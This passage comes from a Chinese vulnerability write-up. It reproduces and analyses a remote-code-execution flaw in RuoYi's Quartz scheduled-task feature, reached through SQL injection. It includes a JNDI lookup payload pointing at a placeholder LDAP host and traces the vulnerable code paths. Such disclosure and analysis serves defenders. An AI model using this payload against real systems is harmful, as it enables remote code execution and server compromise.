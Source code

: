 SQL 语句中的 16 进制为我们要执行的代码：  
```
javax.naming.InitialContext.lookup('ldap://xxxxx')

```  
  
创建任务 101  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7noruCJOS90uacxwAFibwfpmhE49Lclgk3AkysQiaKicednibTTNtruVwr9jCww/640?wx_fmt=png&from=appmsg "")  
  
可以看到任务 100 已经更新为需要执行的代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7noruiaMvibFG8icZkz3OOcBCMt9McZdg2dN6NSibkqdbefpRBeMwUUjibV5459w/640?wx_fmt=png&from=appmsg "")  
  
成功收到回显  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7noruDNIqSXGqh7DcJx6QqdEWVypl1w7aT8vuxyrNLLnib3JUlicJ1icDyKWmg/640?wx_fmt=png&from=appmsg "")  
## 0x06 漏洞分析  
  
从复现的步骤可以看出，RCE 是由定时任务加上 SQL 注入造成的。  
  
**定时任务分析**  
  
定时任务添加：  
  
定位到 com/ruoyi/quartz/controller/SysJobController#addSave 方法中，可以看到在添加定时任务前，对字符串进行了黑白名单的判断  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7norumSAocQdP0huAwfcNQNDASmJRd6MP4sRzzEbwsOg5OD0iaalfibHBgzrg/640?wx_fmt=png&from=appmsg "")  
  
当通过了上述条件后，则执行 com/ruoyi/quartz/service/impl/SysJobServiceImpl#insertJob，先将定时任务写入数据库  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7noruM6Z7Rp9gtCx3icbjP97Oxjeja2nbKd0ia5B55MiadicyjlNMxjXdfC9phA/640?wx_fmt=png&from=appmsg "")  
  
然后创建定时任务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7noru9WutwjXkck9iafwTx2HPsTV9e2DuNsSsfECWa0tOWJu2FDOdNDicPH5A/640?wx_fmt=png&from=appmsg "")  
  
然后就是定时任务执行逻辑，进入 com/ruoyi/quartz/util/AbstractQuartzJob#execute  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7noruibjNj74DfX0JmF2ct0I4YOAt3Eop50LUicUZVpAOEZRibD1WferglfUZQ/640?wx_fmt=png&from=appmsg "")  
  
继续跟进，进入 invokeMethod 方法  
  
getInvokeTarget：调用目标字符串，获取数据库中 invoke_target 字段  
  
getBeanName：获取 beanName  
  
getMethodName：获取方法名  
  
getMethodParams：获取参数名  
  
然后判断是不是全限定类名，若不是则从 spring 容器中获取  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7noruD76ur8wZ9yqjIae7ibUXXHectq4UMzUTRicHXkmdbCcbDjwiawbnEYR7w/640?wx_fmt=png&from=appmsg "")  
  
继续跟进 invokeMethod 方法，利用反射执行方法  
  